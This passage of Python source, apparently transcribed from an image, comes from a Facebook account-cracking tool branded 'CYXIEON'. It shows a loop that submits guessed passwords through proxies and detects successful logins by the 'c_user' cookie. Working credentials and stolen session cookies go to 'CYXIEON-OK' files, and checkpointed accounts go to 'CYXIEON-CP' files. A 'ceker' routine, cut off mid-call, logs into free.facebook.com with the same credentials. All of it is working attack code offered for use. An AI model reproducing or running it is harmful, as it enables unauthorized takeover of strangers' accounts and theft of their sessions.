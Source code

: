 			CYXIEON_XR = ses.post(links,headers=head, data=date, cookies={'cookie': koki}, allow_redirects=False,proxies=proxs)
			if "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=CYXIEON_XR.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				kukis = kuki.replace(f'c_user={idf};datr','sb')
				print(f"{kun}╭────────────────────────────╮{puti}")
				tree = Tree("")
				tree.add(f"\r{hijo}{idf}{puti}").add(f"{hijo}{pw}{puti}").add(f"{mer}{tahun(idf)}{puti}")
				tree.add(f"{hijo}{kuki}{puti}").add(f"{mer}{ua}{puti}")
				print(f"{kun}╰────────────────────────────╯{puti}")
				prints(tree)
				open('CYXIEON-OK/'+'CYXIEON-OK.txt','a').write(idf+'|'+pw+'|'+'\n')
				open('CYXIEON-OK/'+'CYXIEON-WhithCookies.txt','a').write(idf+'|'+pw+'|'+kuki+'|''\n')
				break			
			elif "checkpoint" in CYXIEON_XR.cookies.get_dict().keys():
				print(f"{kun}╭────────────────────────────╮{puti}")
				tree = Tree("")
				tree.add(f"\r{kun}{idf}{puti}").add(f"{kun}{pw}{puti}")
				tree.add(f"{mer}{tahun(idf)}{puti}").add(f"{mer}{ua}{puti}")
				print(f"{kun}╰────────────────────────────╯{puti}")
				prints(tree)
				open('CYXIEON-CP/'+'CYXIEON-CP.txt','a').write(idf+'|'+pw+'|'+'\n')
				akune.append(idf+'|'+pw)
				ceker(idf,pw)
				cp+=1
				break	
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1

#----------[ CEK-OPSI ]----------#	
def ceker(idf,pw):
	global cp
	rc = random.choice
	url = rc(["free.facebook.com"])
	head = {"Host": url,
"cache-control": "max-age=0",
"upgrade-insecure-requests": "1",
"origin": "https://"+url,
"content-type": "application/x-www-form-urlencoded",
"user-agent": "Mozilla/5.0 (Linux; Android 10; DOOGEE B10 Build/KOTG49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Mobile Safari/537.36",
"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
"x-requested-with": "com.android.chrome",
"sec-fetch-site": "same-origin",
"sec-fetch-mode": "navigate",
"sec-fetch-user": "?1",
"sec-fetch-dest": "document",
"referer": f"https://{url}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",
"accept-encoding": "gzip, deflate",
"accept-language": "fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7"}
	ses = requests.Session()
	try:
		hi = ses.get('https://'+url)
		kontol = sop(ses.post(
		'https://'+url+'/login.php',
		data={